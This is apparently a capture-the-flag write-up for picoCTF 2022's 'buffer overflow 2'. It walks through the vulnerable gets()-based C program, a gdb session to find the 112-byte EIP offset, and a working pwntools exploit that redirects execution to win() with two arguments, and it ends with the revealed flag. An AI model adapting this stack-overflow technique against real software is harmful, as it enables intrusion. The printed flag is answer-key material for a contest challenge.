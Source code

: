# buffer overflow 2 - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 300 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## buffer overflow 2 Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_2]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/bof_2/vuln'
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

We need to overwrite the retur address on ```vuln``` function to ```win``` function, But as we can see, now we need to pass two arguments to ```win``` function, the first argument is ```0xCAFEF00D``` and the second is ```0xF00DF00D```.

Let's find the offset between ```buf``` to ```EIP``` using ```gdb```:
```asm
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_2]
└──╼ $ gdb vuln
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/bof_2/vuln 
Please enter your string: 
AAAAAAAA

...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rw-
  0x804d1a0 - 0x804d1aa  →   "AAAAAAAA\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd00c - 0xffffd014  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x804935a in vuln; saved eip = 0x80493dd
 called by frame at 0xffffd0b0
 Arglist at 0xffffcfec, args: 
 Locals at 0xffffcfec, Previous frame's sp is 0xffffd080
 Saved registers:
  ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

```

The buffer locates on ```0xffffd00c``` and ```EIP``` locates on ```0xffffd07c```, The offset is 112 bytes.

Meaning that we need to insert 112 bytes (including the arguments) and then the address of ```win``` function:
```
...|         buf[100]         |    12bytes   |    EIP   | ... arguments ...
````

According to the stack frame ([Reference](https://zhu45.org/posts/2017/Jul/30/understanding-how-function-call-works/)):

![stack-frame-structure.png](images/stack-frame-structure.png)

Our payload shoule be ```100bytes (buffer) + 12 bytes + EIP (address of win function) + 4 Bytes (EBP+4 which is return address) + arg1 + arg2```

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')
libc = elf.libc

if args.REMOTE:
    p = remote('saturn.picoctf.net',50104)
else:
    p = process(elf.path)

# payload buffer
payload = b'A'*112
payload += p32(0x8049296) #Address of win function
payload += p32(0x8049372) # address of main function which is the return address from win.
payload += p32(0xCAFEF00D)+p32(0xF00DF00D) # arg1, arg2

print(p.recvuntil(':'))
p.send(payload)
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_2]
└──╼ $ python3 exp.py REMOTE
[*] '/pictoctf2022/binary_exploitation/bof_2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to saturn.picoctf.net on port 50104: Done
b'Please enter your string:'
[*] Switching to interactive mode
 
$ 
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04r\x93\x04
$ 
picoCTF{argum3nt5_4_d4yZ_2a8ec317}
Please enter your string: 

```

And we get the flag ```picoCTF{argum3nt5_4_d4yZ_2a8ec317}```.